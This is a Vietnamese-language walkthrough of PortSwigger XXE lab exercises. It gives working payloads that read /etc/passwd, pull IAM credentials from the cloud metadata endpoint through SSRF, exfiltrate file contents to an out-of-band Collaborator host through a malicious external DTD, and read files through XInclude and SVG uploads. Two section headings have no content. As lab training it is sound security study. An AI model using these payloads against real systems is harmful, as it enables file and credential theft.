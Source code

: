 # 1. Exploiting XXE using external entities to retrieve files
Ta thấy chức năng stock check có body là một đoạn mã XML. Như vậy ta có thẻ exploit bằng cách chèn đoạn code sau vào body:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
Kết quả nội dung file /etc/passwd được in ra thành công
![image](https://user-images.githubusercontent.com/103978452/205596701-bb968712-24a2-4d79-94cd-6247202fb977.png)

# 2. Exploiting XXE to perform SSRF attacks
Cấu hình đoạn XML như sau:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```
Sau khi submit, ta thấy kết quả trả về `Invalid product ID: latest". Như vậy "latest" chính là response của "http://169.254.169.254". Truy cập "http://169.254.169.254/latest" thì ta lại được một chuỗi mới. Cứ như vậy, gửi URL đầy đủ là "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin", ta thu được SecretAccessKey.

![image](https://user-images.githubusercontent.com/103978452/206396710-4d353393-563d-45a0-ae34-68136b7c50db.png)

# 3. Blind XXE with out-of-band interaction
Cấu hình request như bài 2, nhưng thay đổi URL thành địa chỉ của Burp Collaborator. Sau khi submit, vào Burp Collaborator Client kiểm tra thì ta thấy có requests được gửi đến. Bài lab được giải thành công.

![image](https://user-images.githubusercontent.com/103978452/206397595-8e3a3423-55e8-4382-944a-cd02e89f8de4.png)

# 4. Blind XXE with out-of-band interaction via XML parameter entities
Cấu hình đoạn XML để gửi request đến Burp Collaborator sử dụng parameter entity:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE exploit [<!ENTITY % xxe SYSTEM "http://pa3d5ksa3lk30zok1tbyh6llqcw2kr.oastify.com"> %xxe; ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```
Sau khi submit, vào Burp Collaborator kiểm tra thì thấy có requests được gửi đến. Bài lab được giải thành công.
# 5. Exploiting blind XXE to exfiltrate data using a malicious external DTD
Cấu hình xml trong request `POST /product/stock`

Nhận thấy khi sử dụng `&payload;`, xuất hiện thông báo "Entities are not allowed for security reasons". Như vậy website đã chặn regular entities. Tuy nhiên parameter entities vẫn có thể được sử dụng.

Đây là dạng blind XXE, như vậy ta sẽ exploit bằng cách gửi HTTP request tới Burp Collaborator có chứa thông tin cần lấy.

Ta cấu hình file `exploit.dtd` trong exploit server:
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % wrapper "<!ENTITY &#x25; exploit SYSTEM 'http://bydfi29s6hf2n7xltrg9fn5sxj39ry.oastify.com/?%file;' >">
%wrapper;
%exploit;
```

Cách hoạt động của `payload.dtd` như sau:
1) `%file;` sẽ chứa nội dung của file `/etc/hostname`
2) `%wrapper;` sẽ tạo ra một parameter là exploit
3) `%exploit;` sẽ gửi request đến Burp Collaborator Server của chúng ta, với path là nội dung của file `/etc/hostname`

Để gọi đến file `payload.dtd` thì trong request `POST /product/stock`, ta khai báo phần DTD với nội dung:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0aed008c038b2807c284bfa8010f0092.exploit-server.net/exploit.dtd"> %xxe;]>
```

Sau khi nhấn send, vào Burp Collaborator kiểm tra thì thấy có request gửi đến

![image](https://user-images.githubusercontent.com/103978452/208012711-599f7cc3-61de-4a99-9265-787b63b18544.png)

Sử dụng kết quả thu được để submit, thành công.

# 6. Exploiting blind XXE to retrieve data via error messages


# 7. Exploiting XInclude to retrieve files
Ta thấy trong phần body của request `POST /product/stock` chỉ chứa hai tham số productId và storeId. Như vậy ta giả sữ giá trị của productId sẽ được đưa vào một đoạn xml ở server side.

Ta thay đổi productId như sau:
```
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
Lưu ý là productId được URL encoded. Sau khi gửi, ta có được nội dung file /etc/passwd

![image](https://user-images.githubusercontent.com/103978452/206656757-5f3e6ceb-c0a4-49f2-bda6-b7cce8430317.png)

# 8. Exploiting XXE via image file upload
Trong request `POST /post/comment`, ta upload file svg với nội dung như sau:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<svg version="1.1" height="50" width="300"
     xmlns="http://www.w3.org/2000/svg"
>
  <text x="0" y="25" font-size="30" fill="white">&xxe;</text>
</svg>
```
Sau khi submit, vào link hình ảnh đã upload, ta thu được nội dung file /etc/hostname là "0478d36e6700". Submit solution, kết quả thành công.

# 9. Exploiting XXE to retrieve data by repurposing a local DTD

